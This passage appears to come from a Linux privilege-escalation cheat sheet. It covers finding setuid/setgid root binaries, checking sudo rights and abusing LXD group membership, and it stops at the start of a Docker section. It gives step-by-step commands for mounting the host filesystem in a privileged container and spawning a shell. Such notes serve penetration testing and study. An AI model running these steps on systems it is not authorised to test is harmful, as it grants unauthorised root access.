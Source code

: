 ```shell
# List files with setuid bit
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
# List files with setgid bit
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

- Find payloads here: [GTFObins](https://gtfobins.github.io/)


## Sudo Rights Abuse

- Sudo privileges can be granted to an account, permitting the account to run certain commands
in the context of the root (or another account) without having to change users or grant excessive
privileges.
- Any rights entries with the `NOPASSWD` option can be seen without entering a password.

```shell
sudo -l
```

- Find payloads here: [GTFObins](https://gtfobins.github.io/)


## Privileged Groups

### LXD

- `LXD` is Ubuntu's container manager. Upon installation, all users are added to the LXD group.
- Membership of this group can be used to escalate privileges by creating an LXD container, 
making it privileged, and then accessing the host file system at `/mnt/root`.

```shell
# Get alpine image an unzip it
unzip alpine.zip 
# Start the LXD initialization process
lxd init
# Import the local image
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
# Start a privileged container with the security.privileged set to true
lxc init alpine r00t -c security.privileged=true
# Mount the host file system
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start r00t
# Spawn shell inside container
lxc exec r00t /bin/sh
```

### Docker

- Placing a user in the docker group is essentially equivalent to root level access to
the file system without requiring a password.
- Members of the docker group can spawn new docker containers.
